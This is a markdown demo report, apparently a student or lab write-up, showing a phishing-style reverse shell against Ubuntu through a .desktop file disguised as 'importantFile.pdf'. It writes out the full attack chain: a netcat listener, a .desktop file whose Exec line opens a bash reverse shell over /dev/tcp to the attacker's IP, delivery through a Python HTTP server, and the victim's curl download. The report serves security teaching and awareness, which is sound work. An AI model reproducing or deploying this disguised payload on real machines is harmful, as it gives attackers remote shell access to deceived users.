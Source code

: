 
# Cybersecurity Demo Report – Reverse Shell via `.desktop` File

## 1. Objective

This demo showcases a phishing-style reverse shell attack using a disguised `.desktop` file on Ubuntu.  
When the victim double-clicks the file, it initiates a reverse shell back to the attacker’s Kali machine without opening a terminal or requiring further interaction.

## 2. Environment Setup

- **Attacker:** Kali Linux  
- **Victim:** Ubuntu Desktop VM  
- **Listener Tool:** Netcat (nc)  
- **Network:** Bridged Adapter with IP `192.168.1.114` (Kali)


## 3. Tools Used

- Netcat for listening on the attacker's side  
- Bash reverse shell payload embedded in a `.desktop` file  
- Python HTTP server for file delivery  
- `curl` for file download


## 4. Attack Scenario

A `.desktop` file named `importantFile.pdf.desktop` was created with a malicious `Exec` command that opens a reverse shell to the attacker's machine.  
When the file is made executable and allowed for launching in Ubuntu, double-clicking it initiates a shell session back to the attacker.

## 5. Execution Steps

**Step 1:** Start Netcat listener on Kali  
```bash
nc -lvnp 4443
````

![Netcat Listener](https://raw.githubusercontent.com/Marwan123-web/RCE-Attack/main/images/Environment%20Setup%20Screenshot.png)

**Step 2:** Create the `.desktop` file with embedded reverse shell

```desktop
[Desktop Entry]
Name=importantFile.pdf
Exec=bash -i >& /dev/tcp/192.168.1.114/4443 0>&1
Terminal=false
Type=Application
```

![Desktop File Content](https://raw.githubusercontent.com/Marwan123-web/RCE-Attack/main/images/Tools%20Overview.png)


**Step 3:** Deliver file to victim via Python HTTP server

```bash
python3 -m http.server 8888
```
![File Hosting](https://raw.githubusercontent.com/Marwan123-web/RCE-Attack/main/images/open%20Python%20Server.png)  

![File Hosting](https://raw.githubusercontent.com/Marwan123-web/RCE-Attack/main/images/File%20Download.png)  


**Step 4:** Victim downloads and double-clicks the file

```bash
curl http://192.168.1.114:8888/importantFile.pdf.desktop -o ~/Desktop/importantFile.pdf.desktop
```

![Victim Desktop](https://raw.githubusercontent.com/Marwan123-web/RCE-Attack/main/images/Malicious%20.desktop%20File.png)

**Step 5:** Reverse shell session is established

![Reverse Shell Connection](https://raw.githubusercontent.com/Marwan123-web/RCE-Attack/main/images/Ubuntu%20Launch%20Prompt.png)

## 6. Sources Used

* [https://www.kali.org](https://www.kali.org)
* [https://book.hacktricks.xyz](https://book.hacktricks.xyz)
* [https://askubuntu.com/questions/1029655/what-does-allow-launching-actually-do](https://askubuntu.com/questions/1029655/what-does-allow-launching-actually-do)

## 7. Conclusion

This demo successfully demonstrates how a seemingly harmless `.desktop` file can be used to gain reverse shell access to a victim's machine with minimal interaction.
The technique highlights the importance of user awareness, file execution policies, and endpoint protection in preventing such attacks.

